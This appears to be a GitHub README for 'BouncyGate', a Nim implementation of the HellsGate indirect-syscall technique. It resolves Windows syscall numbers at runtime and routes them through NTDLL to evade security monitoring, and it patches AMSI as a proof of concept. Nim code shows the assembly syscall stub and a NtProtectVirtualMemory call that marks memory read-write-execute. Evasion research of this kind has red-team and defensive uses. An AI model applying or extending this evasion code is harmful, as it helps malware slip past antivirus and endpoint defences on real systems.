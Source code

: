 # BouncyGate

This is a modified version of [@zimawhit3's implementation](https://github.com/zimawhit3/HellsGateNim) of HellsGate in Nim, with additionally making sure that all syscalls go through NTDLL, by replacing the syscall instructions with a JMP to a syscall instruction in NTDLL. The syscalls are then used to patch AMSI as a PoC.

See https://eversinc33.github.io/posts/avoiding-direct-syscall-instructions/ for an explanation.

If you would like to learn more about how HellsGate works, you can find smelly__vx's (@RtlMateusz) and am0nsec's (@am0nsec) paper at the [Vx-Underground Github](https://github.com/vxunderground/VXUG-Papers/tree/main/Hells%20Gate).

Install mingw 8.0.0-1, since the newest version has some issues related to relocation that make compilation impossible.

### Usage

First, the syscall stub has to be defined:

```nim
proc NtProtectVirtualMemory(ProcessHandle: Handle, BaseAddress: PVOID, NumberOfBytesToProtect: PULONG, NewAccessProtection: ULONG, OldAccessProtection: PULONG): NTSTATUS {.asmNoStackFrame.} =
    asm """
        mov r10, rcx
        mov eax, `ntProtectSyscall`
        mov r11, `ntProtectSyscallJumpAddress`
        jmp r11
        ret
    """
```

Then the syscall number can be resolved at runtime and the syscall can be used afterwards:

```nim
var ntProtect = resolve_syscall("NtProtectVirtualMemory")
ntProtectSyscall = ntProtect.wSysCall
ntProtectSyscallJumpAddress = ntProtect.syscallJumpAddress
var status = NtProtectVirtualMemory(GetCurrentProcess(), &cs_addr, &p_len, cast[ULONG](PAGE_EXECUTE_READWRITE), &op)
```
